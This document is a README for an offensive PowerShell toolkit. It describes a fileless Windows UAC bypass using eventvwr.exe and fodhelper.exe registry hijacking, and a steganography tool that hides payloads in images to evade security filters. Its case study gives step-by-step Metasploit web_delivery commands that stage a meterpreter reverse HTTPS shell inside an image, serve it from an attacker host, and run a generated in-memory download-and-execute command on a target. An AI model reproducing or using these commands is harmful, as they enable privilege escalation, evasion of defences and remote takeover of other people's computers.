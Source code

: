 # Offensive-PowerShell
Collection of powershell scripts to be used during an offensive operation.   

## Set-FilelessBypassUac
Bypass the Windows User Account Control (UAC) with fileless methods.

Based on “Fileless” UAC Bypass Using eventvwr.exe and Registry Hijacking technique from Matt Nelson (@enigma0x3).
https://enigma0x3.net/2016/08/15/fileless-uac-bypass-using-eventvwr-exe-and-registry-hijacking/

### METHODS:

* mscfile - Matt Nelson (@enigma0x3) method using CompMgmtLauncher.exe to replace eventvwr.exe.

    Working on:
    *  Microsoft Windows 7;
    *  Microsoft Windows 8;
    *  Microsoft Windows 8.1;
    *  Microsoft Windows 10 (UNTIL the build 15025.rs2)
    *  Microsoft Windows 2008;
    *  Microsoft Windows 2008 R2;
    *  Microsoft Windows 2016.

* ms-settings - NEW method using ms-settings registry key with DelegateExecute and fodhelper.exe.

    Working on:
    *  Microsoft Windows 10 (tested with successful until the build 15031.rs2)
    *  Microsoft Windows 2016.

## Set-PowerStego
Set-PowerStego allows text or binary files (including payloads developed in powershell and/or PE files) to be inserted into a selected image (BMP or PNG) using the Least Significant Bits (LSB) technique.
It will also be possible to recover the inserted file and in some cases execute it directly in the memory.(Does not touch the disk).

With Set-PowerStego you can bypass Layer 7 security solutions.

### METHODS:

* Analyze - Analyze the selected image, obtaining information about its properties and storage capacities. Important to identify the amount of pixels in the selected image and the amount of bytes supported during insertion of a file;
* Hide - Generate a new image hiding a file inside of a selected image; 
* UnHide - Extracts the file that exists inside of a selected image to disk;
* GeneratePayload - Generates two command lines (scripts), a BASE64 and a COMPRESSED scripts to execute on the target. The command lines are intended to extract a file from the selected image and run it in memory (Powershell Text - Script) or disk (BINARY - Executable file).

###Steps
    1 - Hide a PAYLOAD inside of a image (with a good resolution);
    2 - Store the image on a Webserver that target have access;
    3 - Run the trigger (powershell command line) on the target;
      * The target will download the image to the memory;
      * The payload will be extract on the memory;
      * Powershell payloads will be executed on the memory and PE payloads will be copied to the disk and executed.
    4 - Receive your shell.

### CASE STUDY - Hiding a meterpreter payload inside of image.  
    1 - Open the msfconsole.
    msfconsole

    2 - Select and configure the web_delivery exploit.
    use exploit/multi/script/web_delivery  
    set windows/meterpreter/reverse_https
    set target 2
    set srvport 80
    set uripath /report
    set LHOST <IPADDRESS>
    set LPORT 443
    exploit

    3 - From your Windows machine download the powershell script from web_delivery.
    iwr http://IPFROMMETASPLOITHOST/report -OutFile report.txt

    4 - Open the powershell and import the Set-Powerstego.ps1.
    Import-Module Set-Powerstego.ps1

    5 - Select and analize the properties from a image (BMP or PNG) with a good resolution.
    Set-PowerStego -Method Analyze -ImageSource File -ImageSourcePath <image.png>

    6 - Hide de payload inside the image.
    Set-PowerStego -Method Hide -ImageSource File -ImageSourcePath myimage.png -ImageDestinationPath myimagewithpayload.png -PayloadSource Text -PayloadPath script.ps1

    7 - Copy the image to the METASPLOIT host and start a webserver to be possible access the image.
    cd imagefolder
    pythom -m SimpleHTTPServer 8080

    8 - From the Windows workstation extract the payload to the disk.
    Set-PowerStego -Method UnHide -ImageSource URL -ImageSourcePath http://<IPFROMMETASPLOITHOST:8080>/myimage.png -PayloadSource Text -PayloadPath report2

    Open the file report2 and compare with the file report.  

    9 - Generate a command line to execute the payload on the target.
    Set-PowerStego -Method GeneratePayload -ImageSource URL -ImageSourcePath http://<IPFROMMETASPLOITHOST:8080>/myimage.png -PayloadSource Text -PayloadPath myscript.txt

    Execute the content from the file myscript.txt on any Windows workstion with powershell and access to the metasploit host.
    After the execution, it will be download the image to the memory from the target, the payload extration and execution on the memory, and you will receive a meterpreter shell on the Metasploit host.